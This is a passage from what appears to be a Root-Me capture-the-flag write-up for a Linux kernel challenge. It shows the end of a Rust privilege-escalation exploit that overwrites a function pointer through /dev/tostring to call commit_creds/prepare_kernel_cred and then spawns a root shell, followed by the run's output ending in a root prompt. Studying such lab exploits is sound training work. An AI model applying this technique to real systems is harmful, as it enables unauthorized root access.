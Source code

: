 ```rust
    }

    println!("[*] Overriding function pointer");
    dev.write_all(&tostring_read_override_ea.to_le_bytes())
        .expect("Failed to write to /dev/tostring to override function pointer");

    let mut ret = [0u8; size_of::<usize>()];
    println!(
        "[*] Triggering vuln. Should call our injected function pointer (ea=0x{:x})",
        escalate_privileges as usize
    );
    let _ = dev.read_exact(&mut ret);

    if unsafe { libc::getuid() == 0 && libc::getgid() == 0 } {
        println!("[+] Got root ! Spawning shell...");
        let mut child = std::process::Command::new("/bin/sh").spawn().unwrap();

        child.wait().unwrap();
    } else {
        eprintln!("[!] Failed to get root");
    }
}
```

Upload the binary to the shared folder of the QEMU VM, and run it. We got a root shell !
```plaintext
Root-Me user@linkern-chall:~$ ./exploit 
[-] @prepare_kernel_cred = 0xc10711f0
[-] @commit_creds = 0xc1070e80
[?] Check out function addresses in /proc/kallsyms
[*] Filling stack
[*] Overriding function pointer
[*] Triggering vuln. Should call our injected function pointer (ea=0x804b250)
[+] Got root ! Spawning shell...
Root-Me root@linkern-chall:/home/user$ cat /passwd/passwd
__FLAG__
```

